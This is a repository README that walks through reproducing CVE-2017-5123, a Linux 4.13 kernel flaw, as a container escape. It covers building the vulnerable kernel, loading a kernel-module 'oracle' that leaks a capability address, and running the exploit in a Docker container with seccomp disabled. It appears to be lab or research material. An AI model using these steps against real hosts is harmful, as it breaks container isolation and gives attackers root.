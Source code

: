 # container-privilege-escalation

This repository has the sources and utilities required to exploit the 
CVE-2017-5123 vulnerability which affected Linux kernel 4.13. A more 
detailed explanation of the exploit can be found on other websites such 
as ... and ...
We will use Ubuntu 16.04 for this exploit.

# Compile and install vulnerable Linux kernel

We need to first compile and install a vulnerable version of the kernel. 
We have used version 4.13. It's best if you leave enough space in your 
VM for compiling the kernel and the /boot directory.

```
sudo apt install build-essential ncurses-base libncurses5-dev \
		git build-essential kernel-package fakeroot \
		libssl-dev ccache bison flex libelf-dev dwarves
tar -xvf linux-4.13.tar.gz
cd linux-4.13
make
sudo make modules_install
sudo make install
reboot
```

After the system has rebooted we will validate that the correct kernel
version has booted.

```
uname --kernel-release
```

Unprivileged users do not have access to the kernel logs in more recent 
Linux kernel versions. Just to make sure that it is the case for our kernel 
we run the following command.

```
sudo -s
echo 1 > /proc/sys/kernel/dmesg_restrict
```

# Compile kernel module and install

We will be using a kernel module as an oracle to extract the capability base
address instead of trying to extract it through any type of information 
leakage to simplify the attack.

```
cd oracle.new/src/char_dev_kernel_module
make
gcc -o oracle oracle
sudo insmod process_cred_oracle.ko
```

# Compile the exploit code
The userspace program which invokes the vulnerable system call (`waitid`) 
can be found in the kernel-exploit folder.

```
cd kernel-exploit
make
```

# Launch exploit inside container

We are going to launch a container which has access to the kernel exploit 
userspace program which was compiled and is available in the kernel-exploit 
folder.

```
sudo docker load -i [path-to-repo]/cve.tar.gz
sudo docker run --security-opt seccomp=unconfined -v [path-to-repo]/kernel-exploit/:/home/user_space_program -v [path-to-repo]/linux-4.13/lib:/home/lkms -it cve:1.0 bash
```

Now that we are inside the container, we will first create a dummy user 
with the highest possible uid and use that user to launch our exploit.
```
useradd -u 4294967294 dummy
usermod -aG sudo dummy
passwd dummy

su dummy
bash
cd /home/user_space_program
./user_prog
```

After we launch the program in the container, we need to switch to the host 
and extract its pid and then pass the pid to the oracle to extract the 
capability base address.

**ON THE HOST:**
```
ps aux | grep user_prog
cd [path-to-repo]/oracle.new/src
./oracle [pid]
```
Now we will pass the capability address to the running `user_prog` in the 
container.
When the exploit is finished we can run two commands, `insmod` which installs 
the `test_firmware.ko` kernel module, `dmesg` which shows the kernel logs or
`exit` which will exit the exploit.
